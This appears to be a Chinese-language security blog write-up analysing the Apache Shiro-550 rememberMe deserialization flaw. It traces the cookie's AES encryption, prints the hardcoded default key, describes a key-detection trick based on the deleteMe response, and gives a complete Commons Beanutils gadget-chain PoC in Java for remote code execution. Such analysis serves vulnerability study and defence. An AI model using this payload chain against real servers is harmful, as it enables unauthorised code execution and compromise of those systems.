

Shiro反序列化漏洞有两个一个是Shiro-550(Shiro≤1.2.4版本)，一个是Shiro-721(Shiro<1.4.2版本)，本文是对Shiro-550的分析学习。
目录 漏洞分析 rememberMe加密生成过程 rememberMe解密反序列化过程 shiro检测 Commons Beanutils反序列化 BeanComparator.compare() 漏洞环境：
shiro：https://github.com/apache/shiro
1 2 3 4 git clone https: cd shiro git checkout shiro-root-1.2 .4
注意：修改shiro/samples/web目录下的pom.xml，将jstl的版本修改为1.2
1 2 3 4 5 6 <dependency > <groupId > javax.servlet</groupId > <artifactId > jstl</artifactId > <version > 1.2</version > <scope > runtime</scope > </dependency >
ieda配置tomcat：https://www.bilibili.com/video/BV1V54y1q7Qj
漏洞分析 rememberMe加密生成过程 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 调用过程： DefaultSecurityManager.login()-> DefaultSecurityManager.onSuccessfulLogin()-> DefaultSecurityManager.rememberMeSuccessfulLogin()-> AbstractRememberMeManager.onSuccessfulLogin()-> CookieRememberMeManager.forgetIdentity(Subject subject)-> WebUtils.getHttpRequest()-> WebUtils.getHttpResponse()-> CookieRememberMeManager.forgetIdentity(HttpServletRequest request, HttpServletResponse response)-> CookieRememberMeManager.getCookie()-> SimpleCookie.removeFrom()-> AbstractRememberMeManager.rememberIdentity(Subject subject, AuthenticationToken token, AuthenticationInfo authcInfo)-> AbstractRememberMeManager.rememberIdentity(Subject subject, PrincipalCollection accountPrincipals)-> AbstractRememberMeManager.convertPrincipalsToBytes()-> AbstractRememberMeManager.serialize()-> AbstractRememberMeManager.encrypt()-> CookieRememberMeManager.rememberSerializedIdentity()
org/apache/shiro/mgt/DefaultSecurityManager.java的login下断点，login方法调用了onSuccessfulLogin方法，onSuccessfulLogin方法调用rememberMeSuccessfulLogin方法，rememberMeSuccessfulLogin方法调用AbstractRememberMeManager.onSuccessfulLogin方法。
AbstractRememberMeManager.onSuccessfulLogin方法调用CookieRememberMeManager.forgetIdentity方法，forgetIdentity方法会先获取请求和响应包，调用getCookie获取请求的cookie，调用SimpleCookie.removeFrom方法在response头部添加Set-Cookie: rememberMe=deleteMe

然后再回到onSuccessfulLogin方法中，如果设置rememberMe则进入rememberIdentity。
rememberIdentity调用convertPrincipalsToBytes方法
进入convertPrincipalsToBytes方法，先对用户对象进行序列化，然后对序列化的数据进行加密，跟进encrypt方法。加密算法为AES，模式为CBC，填充算法为PKCS5Padding。
调用getEncryptionCipherKey获取加密密钥，在Shiro≤1.2.4中默认密钥为kPH+bIxk5D2deZiIxcaaaA==
加密完成返回，接着调用CookieRememberMeManager.rememberSerializedIdentity方法
跟进CookieRememberMeManager.rememberSerializedIdentity方法，对加密的字节数组进行base64编码，保存在cookie中。
rememberMe解密反序列化过程 1 2 3 4 5 6 7 8 9 调用过程： DefaultSecurityManager.resolvePrincipals()-> DefaultSecurityManager.getRememberedIdentity()-> AbstractRememberMeManager.getRememberedPrincipals()-> CookieRememberMeManager.getRememberedSerializedIdentity()-> AbstractRememberMeManager.convertBytesToPrincipals()-> AbstractRememberMeManager.decrypt()-> AbstractRememberMeManager.deserialize()-> DefaultSerializer.deserialize()
在DefaultSecurityManager.resolvePrincipals方法下断点，
resolvePrincipals方法调用getRememberedIdentity方法，跟进getRememberedIdentity方法。
getRememberedIdentity方法调用AbstractRememberMeManager.getRememberedPrincipals方法，跟进getRememberedPrincipals方法。
getRememberedPrincipals方法调用CookieRememberMeManager.getRememberedSerializedIdentity方法，跟进getRememberedSerializedIdentity方法。获取序列化的凭证，从请求中获取 Cookie 中的 rememberMe 并进⾏ base64 解码，解码后内容为AES加密内容字节数组并返回给bytes字节数组。
回到getRememberedPrincipals方法，调用convertBytesToPrincipals 方法，将解码的内容传⼊ convertBytesToPrincipals 进⾏ AES 解密和反序列化，调⽤ decrypt 方法进⾏AES解密
跟进decrypt方法，getDecryptionCipherKey方法获取密钥(Shiro≤1.2.4中默认密钥为kPH+bIxk5D2deZiIxcaaaA==)，进行解密，最后返回解密完成后序列化对象的字节数组。
回到convertBytesToPrincipals方法，调用deserialize方法，跟进deserialize方法。
先调用getSerializer方法获取DefaultSerializer对象，调用DefaultSerializer对象的deserialize方法，跟进DefaultSerializer.deserialize方法。通过字节输入流将其反序列化，至此rememberMe解密反序列化过程结束。
shiro检测 shiro-550检测就两点，一是key，二是Gadget chain。虽然≤1.2.4中默认密钥为kPH+bIxk5D2deZiIxcaaaA==，官方针对这个漏洞的修复方式是去掉了默认的Key，生成随机的Key，所以在检测漏洞时我们需要先确定密钥。
参考：一种另类的shiro检测方式
通过是否返回rememberMe=deleteMe判断key的正确性
我们回到解密过程的AbstractRememberMeManager.getRememberedPrincipals方法的convertBytesToPrincipals方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 public PrincipalCollection getRememberedPrincipals (SubjectContext subjectContext) PrincipalCollection principals = null ; try { byte [] bytes = this .getRememberedSerializedIdentity(subjectContext); if (bytes != null && bytes.length > 0 ) { principals = this .convertBytesToPrincipals(bytes, subjectContext); } } catch (RuntimeException var4) { principals = this .onRememberedPrincipalFailure(var4, subjectContext); } return principals; } protected PrincipalCollection convertBytesToPrincipals (byte [] bytes, SubjectContext subjectContext) if (this .getCipherService() != null ) { bytes = this .decrypt(bytes); } return this .deserialize(bytes); }
调用decrypt方法进行解密，当key错误的时候解密失败，就会抛出异常，getRememberedPrincipals方法就会捕获异常，调用onRememberedPrincipalFailure方法，
1 2 3 4 5 6 7 8 protected PrincipalCollection onRememberedPrincipalFailure (RuntimeException e, SubjectContext context) if (log.isDebugEnabled()) { log.debug("There was a failure while trying to retrieve remembered principals. This could be due to a configuration problem or corrupted principals. This could also be due to a recently changed encryption key. The remembered identity will be forgotten and not used for this request." , e); } this .forgetIdentity(context); throw e; }
onRememberedPrincipalFailure方法调用forgetIdentity方法，forgetIdentity方法在前面加密过程中有提到，调用SimpleCookie.removeFrom方法在response头部添加Set-Cookie: rememberMe=deleteMe，当我们key错误的时候会返回rememberMe=deleteMe，这是一种情况。
还有一种情况，用反序列化 gadget 生成之后，拿shiro加密算法进行加密，但是最后依然在 response里面携带了rememberMe=deleteMe。
还是回到 AbstractRememberMeManager.convertBytesToPrincipals方法当中，这里的key肯定是正确的，所以经过 decrypt处理之后返回 bytes数组，调用deserialize方法，跟进deserialize方法。
1 2 3 protected PrincipalCollection deserialize (byte [] serializedIdentity) return (PrincipalCollection)this .getSerializer().deserialize(serializedIdentity); }
反序列化的 gadget 实际上并不是继承了 PrincipalCollection ，所以这里进行类型转换会报错。在做类型转换之前，先进入了 DefaultSerializer#deserialize 进行反序列化处理，等处理结束返回 deserialized 时候，进行类型转换自然又回到了上面提到的类型转换异常，我们 key 不正确的情况下的 catch 异常捕获的逻辑里，后面的流程就和上述一样了。
结合以上两种情况，只需要满足两点：
1.构造一个继承 PrincipalCollection 的序列化对象。
2.key正确情况下不返回 deleteMe ，key错误情况下返回 deleteMe 。
基于这两个条件下 SimplePrincipalCollection 这个类自然就出现了，这个类可被序列化，继承了 PrincipalCollection 。
构造POC实际上也很简单，构造一个这个空对象也是可以达到效果的。
1 2 3 4 SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection(); ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream("payload" )); obj.writeObject(simplePrincipalCollection); obj.close();
Commons Beanutils反序列化 Gadget chain:
1 2 3 4 5 6 7 8 9 10 11 ObjectInputStream.readObject() PriorityQueue.readObject() PriorityQueue.heapify() PriorityQueue.siftDown() PriorityQueue.siftDownUsingComparator() BeanComparator.compare() TemplatesImpl.getOutputProperties() TemplatesImpl.newTransformer() TemplatesImpl.getTransletInstance() TemplatesImpl.defineTransletClasses() TemplatesImpl.defineClass()
首先我们需要了解Commons Beanutils是干什么的，Commons Beanutils 是 Apache Commons 工具集下的另一个项目，它提供了对普通Java类对象（也称为JavaBean）的一些操作方法。
例：
1 2 3 4 5 6 7 8 9 10 public class Cat private String name = "miao~ miao~" ; public String getName () return name; } public void setName (String name) this .name = name; } }
它包含一个私有属性name，和读取和设置这个属性的两个方法，又称为getter和setter。其中，getter的方法名以get开头，setter的方法名以set开头，全名符合骆驼式命名法（Camel-Case）。
commons-beanutils中提供了一个静态方法 PropertyUtils.getProperty ，让使用者可以动态调用任意JavaBean的getter方法
例：
1 2 3 4 5 public static void main (String[] args) Cat cat = new Cat(); System.out.println(PropertyUtils.getProperty(cat,"name" )); }
调试看看getProperty做了一些什么。
进入PropertyUtils.getProperty，调用PropertyUtilsBean.getProperty方法，跟进继续调用PropertyUtilsBean.getNestedProperty方法，继续跟进。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 public Object getNestedProperty (Object bean, String name) throws IllegalAccessException, InvocationTargetException, NoSuchMethodException if (bean == null ) { throw new IllegalArgumentException("No bean specified" ); } else if (name == null ) { throw new IllegalArgumentException("No name specified for bean class '" + bean.getClass() + "'" ); } else { while (this .resolver.hasNested(name)) { String next = this .resolver.next(name); Object nestedBean = null ; if (bean instanceof Map) { nestedBean = this .getPropertyOfMapBean((Map)bean, next); } else if (this .resolver.isMapped(next)) { nestedBean = this .getMappedProperty(bean, next); } else if (this .resolver.isIndexed(next)) { nestedBean = this .getIndexedProperty(bean, next); } else { nestedBean = this .getSimpleProperty(bean, next); } if (nestedBean == null ) { throw new NestedNullException("Null property value for '" + name + "' on bean class '" + bean.getClass() + "'" ); } bean = nestedBean; name = this .resolver.remove(name); } if (bean instanceof Map) { bean = this .getPropertyOfMapBean((Map)bean, name); } else if (this .resolver.isMapped(name)) { bean = this .getMappedProperty(bean, name); } else if (this .resolver.isIndexed(name)) { bean = this .getIndexedProperty(bean, name); } else { bean = this .getSimpleProperty(bean, name); } return bean; } }
经过一系列判断，最后调用getSimpleProperty方法，继续跟进。
又是一系列判断，最后调用getPropertyDescriptor方法，这个方法检索指定 bean 的指定属性的属性描述符，其中就会返回getter方法和setter方法。
然后通过反射获取getter方法。
1 2 3 Method getReadMethod (Class clazz, PropertyDescriptor descriptor) { return MethodUtils.getAccessibleMethod(clazz, descriptor.getReadMethod()); }
再invoke调用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 private Object invokeMethod (Method method, Object bean, Object[] values) throws IllegalAccessException, InvocationTargetException if (bean == null ) { throw new IllegalArgumentException("No bean specified - this should have been checked before reaching this method" ); } else { String valueString; int i; Class[] parTypes; int i; String expectedString; IllegalArgumentException e; try { return method.invoke(bean, values); } catch (NullPointerException var9) { valueString = "" ; if (values != null ) { for (i = 0 ; i < values.length; ++i) { if (i > 0 ) { valueString = valueString + ", " ; } if (values[i] == null ) { valueString = valueString + "<null>" ; } else { valueString = valueString + values[i].getClass().getName(); } } } expectedString = "" ; parTypes = method.getParameterTypes(); if (parTypes != null ) { for (i = 0 ; i < parTypes.length; ++i) { if (i > 0 ) { expectedString = expectedString + ", " ; } expectedString = expectedString + parTypes[i].getName(); } } e = new IllegalArgumentException("Cannot invoke " + method.getDeclaringClass().getName() + "." + method.getName() + " on bean class '" + bean.getClass() + "' - " + var9.getMessage() + " - had objects of type \"" + valueString + "\" but expected signature \"" + expectedString + "\"" ); if (!BeanUtils.initCause(e, var9)) { this .log.error("Method invocation failed" , var9); } throw e; } catch (IllegalArgumentException var10) { valueString = "" ; if (values != null ) { for (i = 0 ; i < values.length; ++i) { if (i > 0 ) { valueString = valueString + ", " ; } if (values[i] == null ) { valueString = valueString + "<null>" ; } else { valueString = valueString + values[i].getClass().getName(); } } } expectedString = "" ; parTypes = method.getParameterTypes(); if (parTypes != null ) { for (i = 0 ; i < parTypes.length; ++i) { if (i > 0 ) { expectedString = expectedString + ", " ; } expectedString = expectedString + parTypes[i].getName(); } } e = new IllegalArgumentException("Cannot invoke " + method.getDeclaringClass().getName() + "." + method.getName() + " on bean class '" + bean.getClass() + "' - " + var10.getMessage() + " - had objects of type \"" + valueString + "\" but expected signature \"" + expectedString + "\"" ); if (!BeanUtils.initCause(e, var10)) { this .log.error("Method invocation failed" , var10); } throw e; } } }
那么我们找到一个与getter方法类似的方法，通过getProperty方法调用呢？在cc2中我们用到了类加载代码执行TemplatesImpl类，知道调用newTransformer方法就会加载我准备的恶意代码，在找什么地方调用newTransformer方法的时候在TemplatesImpl类下有一个getOutputProperties方法也调用了newTransformer方法，并且方法名与getter方法类似，我们尝试通过getProperty方法调用。
事实证明是可以的，那我们就需要找调用链，找什么地方使用了getProperty方法。
BeanComparator.compare() 在BeanComparator.compare方法中调用了getProperty方法，并且o1可控，property可通过反射赋值。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 private String property;public int compare (Object o1, Object o2) if (this .property == null ) { return this .comparator.compare(o1, o2); } else { try { Object value1 = PropertyUtils.getProperty(o1, this .property); Object value2 = PropertyUtils.getProperty(o2, this .property); return this .comparator.compare(value1, value2); } catch (IllegalAccessException var5) { throw new RuntimeException("IllegalAccessException: " + var5.toString()); } catch (InvocationTargetException var6) { throw new RuntimeException("InvocationTargetException: " + var6.toString()); } catch (NoSuchMethodException var7) { throw new RuntimeException("NoSuchMethodException: " + var7.toString()); } } }
我们new一个BeanComparator对象，通过反射修改property的值为outputProperties，当调用compare方法是传递templates对象就会调用getProperty方法，就会触发恶意代码，理想总是美好的，现实是残酷的。报错了。
这里我们需要传递一个Comparator，如果不传的话他就会调用ComparableComparator.getInstance，他是commons collections的类，这里就会需要cc的依赖，我们需要找到一个类来替换，这个类需要实现 Comparator 和Serializable 接口，通过IDEA的功能，我们找到一个 ReverseComparator。
通过Collections.reverseOrder()获取ReverseComparator对象，传递到BeanComparator构造方法中。
到了这一步就要cc2相似了，就是PriorityQueue类，这里就不赘述了，直接看完整poc。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import org.apache.commons.beanutils.BeanComparator;import java.io.*;import java.lang.reflect.Field;import java.lang.reflect.InvocationTargetException;import java.nio.file.Files;import java.nio.file.Paths;import java.util.Collections;import java.util.PriorityQueue;public class CommonsBeanutilsSerialize public static void Serialize (Object object) throws IOException ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CB.txt" )); oos.writeObject(object); } public static void unSerialize (String FileName) throws IOException, ClassNotFoundException ObjectInputStream ois = new ObjectInputStream(new FileInputStream(FileName)); ois.readObject(); } public static void main (String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, InvocationTargetException, NoSuchMethodException, ClassNotFoundException TemplatesImpl templates = new TemplatesImpl(); byte [] code = Files.readAllBytes(Paths.get("C:/Users/self_209/Desktop/CodeImplement.class" )); byte [][] _bytecodes = {code}; Class c = templates.getClass(); Field name = c.getDeclaredField("_name" ); name.setAccessible(true ); name.set(templates, "ok" ); Field bytecodes = c.getDeclaredField("_bytecodes" ); bytecodes.setAccessible(true ); bytecodes.set(templates, _bytecodes); Field tfactory = c.getDeclaredField("_tfactory" ); tfactory.setAccessible(true ); tfactory.set(templates, new TransformerFactoryImpl()); BeanComparator comparator = new BeanComparator(null , Collections.reverseOrder()); PriorityQueue priorityQueue = new PriorityQueue(2 ,comparator); priorityQueue.offer(1 ); priorityQueue.offer(1 ); Class aClass = comparator.getClass(); Field property = aClass.getDeclaredField("property" ); property.setAccessible(true ); property.set(comparator,"outputProperties" ); Class priorityQueueClass = priorityQueue.getClass(); Field queueField = priorityQueueClass.getDeclaredField("queue" ); queueField.setAccessible(true ); queueField.set(priorityQueue,new Object[]{templates,templates}); } }
序列化：
反序列化：